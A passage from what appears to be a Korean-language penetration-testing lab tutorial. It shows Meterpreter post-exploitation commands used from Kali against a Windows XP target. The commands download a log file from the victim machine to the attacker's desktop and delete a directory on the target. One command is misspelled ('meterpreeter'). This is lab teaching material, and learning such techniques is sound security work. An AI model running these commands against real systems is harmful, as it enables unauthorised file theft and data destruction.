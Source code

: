 
이번에는 공격대상 pc에 있는 파일을 복사해오자!

다시 c 디렉토리로 이동하여 해당 디렉토리에 있는 파일을 확인하자

우리는 '0.log' 파일을 다운로드 할 것이다.

```
meterpreter > cd ..
meterpreter > ls
meterpreeter > download "c:\WINDOWS\\0.log" /home/kali/Desktop
```

칼리 바탕화면에 다운받은 파일이 생성된 것을 확인할 수 있다.

![4_32](./image4/08.png)

→ 생성된 파일은 연결되어 있는 것이 아니라 각각 다른 파일로 실행된다 따라서 칼리에 있는 파일에 내용을 작성해도 windows xp 에 있는 파일의 내용에는 변화가 없다.

이번에는 디렉토리를 삭제하는 방법을 알아보자

현재 위치가 c:\WINDOWS 인지 확인하고 난 후 명령어를 이용해 디렉토리를 삭제한다.

```
meterpreter > pwd
meterpreter > ls
meterpreter > rmdir newDir
```
